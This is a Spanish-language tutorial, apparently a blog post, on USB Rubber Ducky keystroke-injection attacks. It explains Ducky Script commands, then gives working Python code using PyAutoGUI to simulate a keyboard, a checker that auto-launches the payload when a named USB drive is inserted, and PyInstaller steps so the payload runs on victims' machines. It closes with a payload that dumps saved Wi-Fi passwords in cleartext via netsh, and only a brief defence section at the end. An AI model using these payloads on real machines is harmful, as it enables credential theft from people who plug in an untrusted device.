

# ¿Qué es un USB Rubber Ducky?
Existen una variedad de métodos por los cuales pueden atacar nuestro ordenador. Estamos acostumbrados toparnos con malware a través de descargas, con enlaces maliciosos (phishing), software malintencionados, entre otros. Pero también a través de dispositivos físicos, como lo es Rubber Ducky.
Un Rubber Ducky es un pendrive (USB) programado que funciona como un teclado conectado, nada más conectarse comienza a escribir en el equipo de forma automatizada con los payloads ya configurados para lanzar programas y herramientas cargados en el equipo de la víctima o en el propia memoria Micro SD que lleva incluida. Lo que lo hace peligroso es que es indetectable, los sistemas operativos permiten la comunicación con el usuario a través de los teclados USB lo que implica que un Rubebr Ducky sea acepatado como uno más y tenga la posibilidad de desactivar antivirus, entre otros programas de seguridad de suma importancia.
Tipos de ataques con un Rubber Ducky
Este ataque se aprovecha de la confianza del usuario para ser llevado a cabo (ingeniería social) o de equipos expuestos. Solo imagina por un momento las miles de posibilidades que puede hacer con este dispositivo, pedirle a un amigo/a que te imprima un documento, acceso a puertos USB de una oficina o cibercafe, arrojar pendrives en zonas públicas y esperar que alguien lo enchufe a su dispositivo y que la información que extraiga la suba a un servidor FTP. Por mencionar algunos ataques:
-
Robar contraseñas del Wi-Fi.
-
Recolección información sensible del sistema operativo.
-
Robar cookies del navegador.
-
Subir información a través de un servidor FTP.
-
Borrar datos del sistema.
-
Modificar el DNS para engañar a la víctima (Pharming de DNS).
-
Bloquear programas del sistema (antivirus, firewall).
-
Borrar usuarios y agregar permisos administrativos.
-
Infectar el sistema por medio de una descargar vía internet.
-
Crear puerta trasera (backdoor) para acceder de forma remota.

Las especificaciones técnicas que incorpora el Rubber Ducky son:
-
Ranura para tarjeta Micro SD.
-
Luz LED que indica el estado del dispositivo.
-
Botón que permite re-ejecutar el código.
-
Conector USB Tipo A.
-
Procesador de 60 MHz de 32 bits.
-
Lector USB de memorias micro SD.
-
Case USB.
En seguida que se conecta este USB, es reconocido como un driver Atmel de Windows, engañando al sistema haciéndose pasar por un teclado (para no levantar sospechas y evitar ser bloqueado por antivirus y/o firewall) y ejecutar las teclas indicadas en el código programado (payload).

¿Cómo funciona?
Luego de haber visto los componentes de hardware que incorpora el Rubber Ducky, es preciso saber cómo funciona por dentro. Utiliza un lenguaje de programación llamado "Ducky Script", compuesto por una sintaxis sencilla de escribir y soportada por cualquier editor de código (Notepad, vi, emacs, nano, gedit, kedit, TextEdit, etc). Cada comando reside en una nueva línea y puede tener opciones a continuación. Los comandos están escritos todo en mayúsculas, algunas instrucciones:
| SINTAXIS | DESCRIPCIÓN |
|---|---|
| REM | Comentarios, código que no será ejecutado. |
| DELAY | crea una pausa momentánea en el guión de Ducky. El tiempo DELAY se especifica en milisegundos de 1 a 10000. Se pueden usar varios comandos DELAY para crear retrasos más largos. |
| DEFAULT_DELAY / DEFAULTDELAY | Se debe definir un valor entre 0 y 10000 (milisegundos), el cual establecerá un delay a todas las secuencias de comandos. |
| STRING | Permite inyectar cadenas de caracteres: a-z A-Z 0-9 !-) ~+=_-"';:<,>.?[{]}/|!@#$%^&*(). |
| WINDOWS / GUI | Equivale a la tecla windows o la tecla cmd en macos. |
| SHIFT | Simula la tecla SHIFT, y esta se puede combinar con: DELETE, HOME, INSERT, PAGEUP, PAGEDOWN, WINDOWS, GUI, UPARROW, DOWNARROW, LEFTARROW, RIGHTARROW, TAB. |
| DELETE | Simula la tecla suprimir. |
| RIGHTARROW / RIGHT | Simulan las teclas de dirección. |
| UPARROW / UP | Simulan las teclas de dirección. |
| HOME | Equivale a la tecla inicio. |
| SPACE | Equivale a la tecla espacio. |
| TAB | Equivale a la tecla tabulación. |
| INSERT | Equivale a la tecla insertar. |
| BREAK / PAUSE | Equivale a la combinación CTRL BREAK. |
| SCROLLLOCK | Simula la tecla Scroll Lock. |
| END | Tecla que permite ir al final de algo (página web, documento, etc). |
| CAPSLOCK | Tecla que permite escribir en mayúsculas o minúsculas. |
| ALT | Simula la tecla ALT, y esta se puede combinar con: END, ESC, ESCAPE, F1-F12, caracteres simples (ejemplo: f, s), SPACE, TAB. |
| REPEAT | Repite la cantidad de veces que le indiquemos lo ya ejecutado. |
Quién está detrás de este proyecto es el grupo de hackers Hak5, se desempeñan en crear kits de herramientas de pentesting para todo público. Enfocados especialmente en la recopilación de información, reconocimiento avanzado, la recopilación de inteligencia de código abierto y más.
# CREAR RUBBER DUCKY | Python
Crearemos nuestro primer payload utilizando el lenguaje Python. Para esto, existen librerías/módulos como PyAutoGUI o KeyBoard que permiten controlar el mouse y el teclado para interactuar de forma automatizada con otras aplicaciones. En mi caso utilizaré la primera, para instalar la librería hay que tener pip (en Python 3.4 incluye pip3 de forma predeterminada) instalado para posteriormente descargar la librería.
$ python -m pip3 install --upgrade pipInstalar librería:
$ pip3 install pyautogui
Creamos un nuevo archivo y lo guardamos con la extensión .py. Importamos la librería en el código:
$ import pyautoguiEl siguiente fragmento de código lo que hará será abrir el símbolo del sistema de windows (CMD) e imprimir los textos indicados en pantalla:
$ import pyautogui
pyautogui.keyDown('win')
pyautogui.keyDown('r')
pyautogui.keyUp('win')
pyautogui.keyUp('r')
pyautogui.write('cmd')
pyautogui.press('enter')
pyautogui.time.sleep(1)
pyautogui.write('color a')
pyautogui.press('enter')
pyautogui.write('echo Hello!')
pyautogui.press('enter')
pyautogui.write("echo I'm R3LI4NT")
pyautogui.press('enter')La función keyDown() y keyUp() simulan presionar una tecla y luego soltarla, mientras que write() escribirá los caracteres en la cadena que se pasa. La función press() es un envoltorio de las dos primeras, también simula presionar y soltar una tecla. Por ejemplo, podemos pasar una lista de cadenas para ser presionadas:
$ pyautogui.press(['enter', 'enter', 'enter'])O simplemente establecer cuántas pulsaciones debe realizar:
$ pyautogui.press('enter', presses=3)Es muy importante establecer un intervalo de tiempo entre las pulsasiones de teclas, de lo contrario, no funcionaría correctamente. Esto porque al momento de abrir un programa no podemos decirle que comience a ejecutar la tarea sin que éste aún se haya iniciado. La librería incorpora la función de time.sleep() para establecer el tiempo, se específica en segundos.

Una vez el código sea puesto en marcha, el sistema lo reconocerá como si fuera un teclado y ejecutará cada instrucción dada:

El siguiente paso es programar un checker para detectar el USB una vez se introdujo a la máquina:
$ import subprocess,sys,os,time
from time import sleep
import psutil,win32api
def get_drives():
unidades = subprocess.getoutput("fsutil fsinfo drives").split(" ")[1:]
last_drive = unidades[-1]
len_drives = unidades.index(last_drive)
return len_drives + 1
while True:
for controlador in range(0, get_drives()):
try:
removable = psutil.disk_partitions()[controlador][3].split(",")[1]
if "removable" in removable:
USB_nombre = psutil.disk_partitions()[controlador][1]
USB_etiqueta = win32api.GetVolumeInformation(f"{USB_nombre}\\")[0]
if USB_etiqueta == "KINGSTON":
print("Dispositivo detectado -> :" +str(USB_etiqueta))
sys.exit()
except IndexError:
pass
sleep(1) Con el módulo subprocess le estamos indicando que devuelva la salida del comando fsutil fsinfo drives, cuyo parámetro sirve para enumerar todas las unidades:

El módulo psutil devuelve todas las particiones de disco montadas como una lista de tuplas con nombre, mientras que con win32api devuelve la información de la tupla especificada (USB_nombre). Si dentro de la variable USB_etiqueta se encuentra la partición indicada (nombre del volumen [KINGSTON]), entonces ejecuta la acción dada, que en este caso es detectarlo e imprimir el nombre del volumen.

Recalcando lo anterior, es importante que dentro del if USB_etiqueta específiquén el nombre del USB que vayan a utilizar para el Rubber Ducky. Solo quedaría ejecutar el checker e introducir el USB para comprobar su detección.

Si todo funciona correctamente, agregaremos una última línea al checker para que una vez sea detectado ejecute el Rubber Ducky.
$ os.system(f"python {USB_nombre}rubber_ducky.py")
Por último, movemos el checker y el Rubber Ducky al pendrive, de forma automática se pondrá a escucha de dispositivos conectados. Cuando uno de ellos coincide con el nombre especificado en USB_etiqueta realiza la acción programada del payload.

Todo funciona perfectamente, el único inconveniente es que solo funciona si la víctima tiene Python instalado en su sistema. Para poder ejecutar el Rubber Ducky deberíamos convertir nuestros scripts .py a un archivo ejecutable .exe con el módulo PyInstaller.
Instalar módulo:
$ pip3 install pyinstaller
Con el siguiente comando convertimos nuestro archivo python en un ejecutable:
$ pyinstaller --clean --onefile --windowed <FILE>.py--clean: Borra todos los archivos de compilación.
--onefile: Para que se compile en un solo fichero.
--windowed: Evitar que se abra una terminal luego de ejecutar el fichero.
EJEMPLO
$ pyinstaller --clean --onefile --windowed rubber_ducky.py
pyinstaller --clean --onefile --windowed main.pyPero antes de convertir los scripts hay que editar el código del checker y sustituir la extensión .py al ejecutable .exe.
$ os.system(f"{USB_nombre}RubberDucky.exe")

Se creará una carpeta llamada dist donde se almacenan los archivos ejecutables, debemos moverlos al pendrive y ejecutar solo el checker.

Y de esta forma es posible ejecutar el Rubber Ducky en sistemas Windows. No fue necesario esconder el ejecutable ni pasarlo por ningún crypter, primero porque el payload configurado fue a modo de ejemplo (inofensivo) pero puede probablemente tratarse de un payload que robe datos, administre usuarios y demás, todo dependerá de la imaginación y necesidad del atacante.
Este es otro ejemplo de payload para robar las credenciales Wi-Fi de la víctima:
$ import pyautogui
pyautogui.keyDown('win')
pyautogui.keyDown('r')
pyautogui.keyUp('win')
pyautogui.keyUp('r')
pyautogui.write('cmd')
pyautogui.press('enter')
pyautogui.time.sleep(1)
pyautogui.write('netsh wlan show profile > List-Wifi.txt')
pyautogui.press('enter')
pyautogui.time.sleep(1)
pyautogui.write('netsh wlan show profile name=* key=clear > Pass-Wifi.txt')
pyautogui.press('enter')Lo primero que hace es enumerar todas las redes de nuestro alrededor (incluyendo SSID antiguos) y guardarlas en el fichero List-Wifi.txt, posteriormente ejecuta la siguiente frecuencia de comando para que brinde toda la información de las redes enumeradas, incluida la contraseña de la misma que se almacenarán en el fichero Pass-Wifi.txt


# PROTEGERSE CONTRA UN USB RUBBER DUCKY
Los posibles efectos de este ataque son devastadores para cualquier empresa que no invierte en ciberseguridad. Los ataques de Rubber Ducky se aprovechan de la confianza del usuario (capa 8) para llevar a cabo el ataque, precisamente por eso se debe ser cuidadoso con conectar cualquier dispositivo desconocido en nuestro ordenador, o hacerlo en una máquina virtual de prueba. Por otra parte, existen herramientas como Beamgun especializadas en monitorear dispositivos insertados. Cuando detecta uno, bloquea las pulsaciones de teclas de teclados falsos hasta su reinicio.